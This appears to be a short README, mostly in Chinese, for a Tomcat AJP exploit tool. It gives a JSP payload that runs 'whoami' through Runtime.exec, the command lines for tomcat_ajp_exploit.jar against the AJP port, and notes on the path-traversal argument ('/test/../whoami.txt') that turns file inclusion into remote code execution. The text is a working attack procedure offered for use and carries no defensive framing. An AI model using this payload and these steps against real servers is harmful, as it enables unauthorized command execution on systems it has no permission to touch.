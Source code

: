 # tomcat-ajp


webapps test目录下有个文件whoami.txt，内容：
<%out.println(new java.io.BufferedReader(new  java.io.InputStreamReader(Runtime.getRuntime().exec("whoami").getInputStream())).readLine());%>
rce: java -jar tomcat_ajp_exploit.jar 127.0.0.1 8080 8009 / /test/../whoami.txt
要想rce， 第一个参数必须设置成/, 第二个参数设置成被执行文件的类路径/test/../whoami.txt（测试的结果需要加../ ，否则提示找不到文件）
java -jar tomcat_ajp_exploit.jar 127.0.0.1 8080 8009 /test/ ../whoami.txt 如果test路径不存在，则读去的是root目录下的whoami.txt
System.out.println("java -jar xxx.jar host webport ajpport webpath filepath");
